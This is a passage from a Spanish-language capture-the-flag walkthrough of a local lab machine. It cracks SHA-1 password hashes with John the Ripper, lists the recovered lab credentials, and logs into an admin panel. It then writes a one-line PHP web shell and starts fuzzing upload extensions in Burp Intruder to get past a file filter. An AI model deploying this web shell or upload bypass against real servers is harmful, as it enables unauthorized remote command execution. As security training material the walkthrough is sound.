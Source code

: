 Ahora verificamos que tipo de **hash** tenemos:
```bash
hash-identifier 19fe509f9bae7168fc856f3fd8db02cf28c683f5
hashid 19fe509f9bae7168fc856f3fd8db02cf28c683f5
```

Todo parace indicar que tenemos un **hash** de tipo:
```bash
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Aplicamos el siguiente comando para romer este cifrado en los hashes:
```bash
john --format=Raw-SHA1-AxCrypt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

resultado:
```bash
mundodecaramelo  (?)
0844575632       (?)
```

Tenemos dos potenciales credenciales de usuarios que podemos probar con:
```bash
luisillo
admin
root
```

Tenemos la primera credencial valida:
```bash
username: luisillo
password: mundodecaramelo
```

Tenemos la segunda credencial valida:
```bash
username: admin
password: 0844575632
```

Ahora tenemos un boton que nos lleva al panel de administracion:
```bash
http://172.17.0.2/admin_dashboard.php
```

###### Configuracion:
Aqui tenemos todo listo para poder subir archivos si no validan correctamente el tipo de archivo podemos aprovecharnos para subir un archivo malicioso que nos permita ganar acceso al servidor:
Crearemos un archivo: **( cmd.php )** que intentaremos subir.
```php
<?php
  system($_GET["cmd"]);
?>
```

**Nota** Intentando subir el archivo vemos que no nos deja y es porque aplica validacion sobre archivos potencialmente peligrosos, Asi que interceptamos la peticiones con **burpsuite**
Una ves **interceptada** la peticion, Realizaremos prueba de direfentes extensiones, 
Mandamos la peticion al modo **Intruder** para en donde tenemos la extension:
```bash
Content-Disposition: form-data; name="file_upload"; filename="cmd.Payload"
```
